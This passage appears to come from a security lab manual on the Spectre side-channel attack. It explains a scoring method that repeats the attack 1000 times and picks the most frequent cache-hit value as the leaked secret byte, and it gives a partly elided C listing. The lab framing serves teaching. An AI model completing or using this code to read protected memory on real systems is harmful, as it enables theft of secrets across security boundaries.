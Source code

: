 We basically use a statistical technique.
The idea is to create a score array of size 256, one element for each possible
secret value. We then run our attack for multiple times. Each time, if our
attack program says that \texttt{k} is the secret (this result may be
false), we add \texttt{1} to \texttt{scores[k]}.  After running the attack for many
times, we use the value \texttt{k} with
the highest score as our final estimation of the secret.  This will produce
a much reliable estimation than the one based on a single run. The revised
code is shown in the following.




\begin{lstlisting}[caption=\texttt{SpectreAttackImproved.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  ......
  for (i = 0; i < 256; i++) {
     ......
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

void spectreAttack(size_t index_beyond)
{
  ... omitted: same as that in SpectreAttack.c ...
}

int main() {
  int i;
  uint8_t s;
  size_t  index_beyond = (size_t)(secret - (char*)buffer);

  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0;

  for (i = 0; i < 1000; i++) {
    printf("*****\n");                 (*@\ding{192}@*)
    spectreAttack(index_beyond);
    usleep(10);                        (*@\ding{193}@*)
    reloadSideChannelImproved();
  }

  int max = 0;                     
  for (i = 0; i < 256; i++){
   if(scores[max] < scores[i])
     max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The  secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0);
}
\end{lstlisting}

